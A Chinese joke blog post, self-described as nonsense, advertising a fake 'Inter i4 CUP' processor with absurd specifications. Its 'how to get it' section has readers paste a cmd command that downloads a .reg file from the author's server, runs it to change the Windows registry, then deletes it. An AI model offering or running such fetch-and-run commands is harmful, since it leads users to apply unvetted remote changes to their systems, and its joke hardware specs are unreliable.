 ```yaml
---
title: 出售路边小作坊限定 Inter i4 CUP
date: 2020-09-27 17:29:00
updated: 2020-09-27 17:30:08
categories: 代码
tags:
- Intel
- CPU
- i5
- i4
- AMD
- 路边小作坊
- 装逼
- REG
thumbnailImage: https://cos.mbrjun.cn/IMGS/2020/09/27/i4.png
---
```

本文章内容全是扯淡
路边小作坊 i4 CUP 性价比超高 免费送一个
<!-- more -->
## 特色 ##
0.0Ghz 高主频，祝您的游戏可以达到3FPS电竞帧数
最多支持 128b 内存，让你同时运行128个程序
全新 Inter128 ，获得更高的软件兼容性
NMSL-Lake 架构，性能更好
9核高速处理器，其中4大核5小核
L3 Cache .6Mb，减少了蓝屏的概率
不支持虚拟化，防止虚拟机bd渗入实体机，也防止了杀毒软件高占用
## 获取 ##
按下 Windows Logo Key+R
输入cmd 回车
输入下面的命令 粘贴好了回车：
``curl https://cos.mbrjun.cn/IMGS/2020/09/27/i412thGen.reg --output "Installi4CPU.reg" && Installi4CPU.reg &&ping localhost > nul && del "Installi4CPU.reg"``

## 效果 ##
![  ][1]


  [1]: https://cos.mbrjun.cn/IMGS/2020/09/27/i4.png